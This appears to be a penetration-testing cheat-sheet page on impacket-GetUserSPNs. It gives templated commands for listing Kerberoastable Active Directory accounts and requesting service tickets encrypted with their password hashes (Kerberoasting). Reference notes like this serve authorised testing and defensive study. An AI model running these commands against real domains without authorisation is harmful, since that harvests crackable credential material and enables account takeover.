 # impacket-GetUserSPNs

> Python tool for retrieving Active Directory domain user accounts who have [[service-principal-name|SPNs]] set and retrieving service tickets encrypted with their password hashes (i.e., [[kerberoasting]]).


---

## Discover Kerberoastable Users

```bash
impacket-GetUserSPNs $DOMAIN/$DOMAIN_USER[:$DOMAIN_USER_PASSWORD] [-hashes $LMHASH:$NTLMHASH] -dc-ip $DC_IP
```

---

## Retrieve a Service Ticket Encrypted with the Password Hash of all Kerberoastable Users

```bash
impacket-GetUserSPNs $DOMAIN/$DOMAIN_USER[:$DOMAIN_USER_PASSWORD] [-hashes $LMHASH:$NTLMHASH] -dc-ip $DC_IP -request
```

---

## Retrieve a Service Ticket Encrypted with the Password Hash of a Kerberoastable User

```bash
impacket-GetUserSPNs $DOMAIN/$DOMAIN_USER[:$DOMAIN_USER_PASSWORD] [-hashes $LMHASH:$NTLMHASH] -dc-ip $DC_IP -request-user $KERBEROASTABLE_USERNAME
```
